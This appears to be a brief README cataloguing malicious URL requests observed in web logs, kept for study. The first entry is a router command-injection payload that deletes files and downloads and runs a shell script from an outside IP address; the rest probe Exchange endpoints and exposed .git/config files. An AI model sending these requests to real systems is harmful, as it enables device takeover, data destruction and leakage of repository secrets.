 # hack-attempts
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
## ATTEMPTS:
1. /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)
2. /autodiscover/autodiscover.json?@zdi/Powershell
3. /owa/auth/x.js
4. /backup/.git/config
5. /log/.git/config
6. /doc/.git/config
